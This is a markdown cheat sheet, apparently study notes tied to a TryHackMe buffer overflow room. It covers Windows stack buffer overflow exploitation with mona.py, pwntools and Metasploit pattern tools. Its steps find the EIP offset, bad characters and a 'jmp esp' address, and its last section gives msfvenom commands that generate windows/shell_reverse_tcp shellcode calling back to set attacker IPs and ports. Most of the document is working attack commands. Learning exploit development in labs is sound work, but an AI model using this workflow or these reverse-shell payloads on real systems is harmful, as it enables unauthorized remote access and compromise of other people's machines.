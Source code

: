 ## Mona CheatSheet

**Setup your working directory**
In Immunity Debugger, type the following to set a working directory for mona.
`!mona config -set workingfolder c:\mona\%p`

* https://github.com/corelan/mona 
* https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/

<br>
<br>


# Generating unique patterns
buffer overflow stuff

## cyclic patterns
```
from pwn import *
cyclic(3000)
cyclic_find('abdd')
out[100] 2907
```


OR
```
cyclic_metasploit(3000)
cyclic_metasploit_find(0x33794332) 
```
OR

```
msf-pattern-create -l 3000
msf-pattern-offset -l 3000 -q 33794332

```
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```



`!mona findmsp -distance 600 `

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb  -l 2400 -q 6F43396E`

# Bad Chars

**Generate a byte array**

`!mona bytearray -b "\x00"`

<br>
<br>

**Run your badchar script and compare with mona**

**compare your stuff**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

**Add newly found bad chars to your list to be removed, and regenerate your badchars list**

`!mona bytearray -b "\x00\x0a"`

<br>
<br>

**Resend the new list of badchars, and then compare again**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

## Finding a jump point 
You have control of EIP, but need an address that will jump to a new stack location. You need to find a `jmp esp`

```
!mona jmp -r esp -cpb "\x00"
!mona jmp -r esp -cpb "\x00\x0a\x0d"
```
This will return you a list of memory addresses that you can use. Pick one and save it. We'll need it in a second.


## MSF Payloads

`msfvenom -l payloads `

`msfvenom -p windows/shell_reverse_tcp LHOST=10.6.19.12 LPORT=9009 EXITFUNC=thread -b "\x00" -f python -v "shellcode"`

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"`

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a" > shelloutput1.txt`

`sed -z 's/\n//g' shelloutput1.txt | sed -z 's/"//g' - `

https://tryhackme.com/room/bufferoverflowprep 

https://www.youtube.com/watch?v=1X2JGF_9JGM 
